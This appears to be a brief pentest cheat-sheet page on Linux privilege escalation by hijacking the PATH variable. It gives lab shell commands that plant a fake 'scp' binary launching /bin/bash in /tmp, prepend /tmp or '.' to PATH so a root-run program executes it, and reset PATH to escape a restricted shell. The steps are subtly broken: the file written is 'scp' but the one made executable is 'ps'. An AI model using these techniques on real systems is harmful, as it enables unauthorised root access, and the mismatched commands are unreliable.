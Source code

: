 # PATH variable

in PATH environmental variable, its specifies all bin and sbin directories that hold all executable programs are stored. It really useful in some case of priviliage esclation tricks.

## Exported Path

First check if $PATH is exported so we can change it:

```
bob@victimlab:~/#: export -p
...
declare -x ORACLE_HOME="/opt/oracle/instantclient_12_1"
declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/oracle/instantclient_12_1:/opt/oracle/instantclient_12_1"
...
```
Then, we can set the $PATH to include path to our folder which cotains malicous binary as following:

```
bob@victimlab:~/#: cd /tmp
bob@victimlab:~/#: echo "/bin/bash" > scp
bob@victimlab:~/#: chmod 777 ps
bob@victimlab:~/#: echo $PATH
bob@victimlab:~/#: export PATH=/tmp:$PATH
```

So if program uses the scp command under root it will give us path to priviliage esclation with our malicous binary.

Antoher trick could be use the dot (.) in environment PATH variable so we can execute binaries/scripts from the current directory:

```
root@kali:~/#: export PATH=.:$PATH
```

## Missing binaries

In some restricted shell we may not able use common binaris such as "cd", "sh" etc.
So we'll use export path to load all available binaries:

```
bob@victimlab:~/#: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```
